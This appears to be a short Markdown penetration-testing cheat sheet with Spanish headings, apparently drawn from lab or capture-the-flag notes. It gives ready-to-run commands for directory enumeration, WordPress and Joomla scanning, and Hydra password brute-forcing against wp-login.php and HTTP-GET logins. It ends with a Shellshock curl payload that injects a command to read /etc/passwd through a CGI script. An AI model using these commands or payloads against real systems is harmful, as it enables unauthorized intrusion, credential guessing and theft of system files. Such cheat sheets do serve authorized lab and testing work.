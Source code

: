 ## Enumerar directorios
### Gobuster
```
gobuster -u URL -w lista -e EXTENSIONES
```
### Metasploit module
```
auxiliary/scanner/http/brute_dirs
```

## WordPress
### WP scan full
```
wpscan --url URL -e vp,u,cb,dbe
```
### WP Scan Bruteforce login
```
wpscan --url URL --wordlist DICTIONARYPATH --username USERNAME
```
### Hydra
```
hydra -L USERLIST -P PASSLIST IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" 

```
## Joomla
### Joomscan Scan
```
perl joomscan.pl -u URL
```

## BruteForce HTTP GET
### Hydra
```
hydra -L UserList -P PassList IP http-get Directorio
```
### Metasploit module
```
auxiliary/scanner/http/http_login
```
## Shellshock cgi-bin
```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://IP/cgi-bin/script.sh
```
